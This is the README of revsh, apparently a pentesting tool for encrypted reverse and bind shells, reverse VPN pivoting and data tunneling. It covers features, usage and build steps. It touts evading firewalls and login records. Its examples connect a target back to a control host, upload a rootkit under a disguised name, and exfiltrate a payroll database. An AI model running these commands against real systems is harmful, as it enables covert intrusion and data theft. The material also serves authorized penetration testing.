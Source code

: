 # revsh #

_revsh_ is a tool for establishing [reverse shells](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support, reverse [VPNs](https://en.wikipedia.org/wiki/Virtual_private_network) for [advanced pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting), as well as arbitrary data tunneling.

## News ##

* __2018-08-09__: New release. Mosly bug / stability fixes and better documentation on the build process with OpenSSL 1.1.0. See the _Installation_ section below for the updated build instructions.

## Overview ##

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "reverse VPN"?**

_revsh_ is capable of attaching a virtual ethernet card (tun/tap) to both ends of its crypto tunnel. These cards can then be used to forward raw IP packets or ethernet frames. When combined with an Iptables NAT rule, or bridging a real ethernet card, this allows for the operator to receive a fully routable IP address on the target machines network. This, essentially, is a full VPN that has performed a connect-back call to the operator to circumvent in-bound packet filtering and grant the operator full network access.

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. vi)
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.
 * Proxy support: point-to-point, SOCKS 4, SOCKS 4a, and SOCKS 5. Proxys are available in both directions for complete flexibility.
 * TUN / TAP support for forwarding raw IP packets / Ethernet frames.
 * Escape sequence commands to kill non-responsive nodes, or print connection statistics.


_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~75k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	Control:	revsh -c [CONTROL_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	Target:		revsh     [TARGET_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	
		ADDRESS		The address of the control listener.		(Default is "0.0.0.0".)
		PORT		The port of the control listener.		(Default is "2200".)
	
	CONTROL_OPTIONS:
		-c		Run in "command and control" mode.		(Default is target mode.)
		-a		Enable Anonymous Diffie-Hellman mode.		(Default is Ephemeral Diffie-Hellman.)
		-d KEYS_DIR	Reference the keys in an alternate directory.	(Default is "~/.revsh/keys/".)
		-f RC_FILE	Reference an alternate rc file.			(Default is "~/.revsh/rc".)
		-s SHELL	Invoke SHELL as the remote shell.		(Default is "/bin/bash".)
		-F LOG_FILE	Log general use and errors to LOG_FILE.		(No default set.)
	
	TARGET_OPTIONS:
		-t SEC		Set the connection timeout to SEC seconds.	(Default is "3600".)
		-r SEC1,SEC2	Set the retry time to be SEC1 seconds, or	(Default is "600,1200".)
				to be random in the range from SEC1 to SEC2.
	
	MUTUAL_OPTIONS:
		-k		Run in keep-alive mode.
				Node will neither exit normally, nor timeout.
		-L [LHOST:]LPORT:RHOST:RPORT
				Static socket forwarding with a local listener
				at LHOST:LPORT forwarding to RHOST:RPORT.
		-R [RHOST:]RPORT:LHOST:LPORT
				Static socket forwarding with a remote listener
				at RHOST:RPORT forwarding to LHOST:LPORT.
		-D [LHOST:]LPORT
				Dynamic socket forwarding with a local listener
				at LHOST:LPORT.					(Socks 4, 4a, and 5. TCP connect only.)
		-B [RHOST:]RPORT
				Dynamic socket forwarding with a remote
				listener at LHOST:LPORT.			(Socks 4, 4a, and 5. TCP connect only.)
		-x		Disable automatic setup of proxies.		(Defaults: Proxy D2280 and tun/tap devices.)
		-b		Start in bind shell mode.			(Default is reverse shell mode.)
				The -b flag must be invoked on both ends.
		-n		Non-interactive netcat style data broker.	(Default is interactive w/remote tty.)
				No tty. Useful for copying files.
		-v		Verbose. -vv and -vvv increase verbosity.
		-V		Print the program and protocol versions.
		-h		Print this help.
		-e		Print out some usage examples.

## Installation ##

First, you will need to build OpenSSL from source. (See NOTE below.)

	git clone https://github.com/openssl/openssl.git
	cd openssl/
	./config no-shared -static	# These options are needed to build static applications against OpenSSL.
	make && make test	# We skip "make install" so we don't conflict with your systems default OpenSSL. We will build _revsh_ against the OpenSSL we just compiled in this tree.
	cd ..

Now build revsh.

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	vi Makefile        # Check that the selected build environment is the one you want. (It probably already is by default.)
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	vi ~/.revsh/rc     # Add your favorite startup commands to really customize the feel of your remote shell.
	revsh -h

NOTE: With the release of OpenSSL 1.1.0, OpenSSL needs to be built from source for use in a statically linked binary. Building a statically linked binary against the OpenSSL libraries that ship with most Linux distros (including Kali) will *not* work. (If it builds at all, it will SEGFAULT.)

## Examples ##

Control host example IP: 192.168.0.42
<br>
Target host example IP:  192.168.0.66

	Interactive example on default port '2200':
		control:	revsh -c
		target:		revsh 192.168.0.42
	
	Interactive example on non-standard port '443':
		control:	revsh -c 192.168.0.42:443
		target:		revsh 192.168.0.42:443
	
	Bindshell example:
		target:		revsh -b
		control:	revsh -c -b 192.168.0.66
	
	Non-interactive file upload example:
		control:	cat ~/bin/rootkit | revsh -c -n
		target:		revsh 192.168.0.42 > ./totally_not_a_rootkit
	
	Non-interactive file download example:
		control:	revsh -c -n >payroll_db.tar
		target:		cat payroll_db.tar | revsh 192.168.0.42
	
	Non-interactive file download example across existing tunnel:
		control:	revsh -c -n 127.0.0.1:2291 >payroll_db.tar
		target:		cat payroll_db.tar | revsh 127.0.0.1:2290

